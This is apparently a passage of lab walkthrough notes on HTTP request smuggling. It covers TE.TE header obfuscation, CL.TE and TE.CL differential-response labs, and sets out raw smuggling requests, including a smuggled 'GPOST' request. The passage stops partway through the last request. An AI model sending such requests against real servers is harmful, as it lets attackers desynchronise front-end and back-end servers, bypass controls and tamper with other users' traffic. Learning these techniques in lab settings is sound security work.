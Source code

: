 The response for this request got timed out, indicate a TE header obfuscation vulnerability where the back-end server is now using the CL header (because it is waiting for the 6th byte):

    POST / HTTP/1.1
    Content-Length: 6
    Transfer-Encoding: chunked
    Transfer-Encoding: foobar

    0

    X
    
Now send this request to meet the lab's requirement:

    POST / HTTP/1.1
    Transfer-Encoding: chunked
    Transfer-Encoding: foobar
    Content-Length: 4

    5c
    GPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 15

    x=1
    0

### LAB: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
Send this request:

    POST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 28
    Transfer-Encoding: chunked

    0

    GET /404 HTTP/1.1
    Foo:

Resend this request will result in the following request which trigger the `404 Not Found` response:

    GET /404 HTTP/1.1
    Foo: POST /HTTP/1.1
    ...

### LAB: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
Send this request:

    POST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked
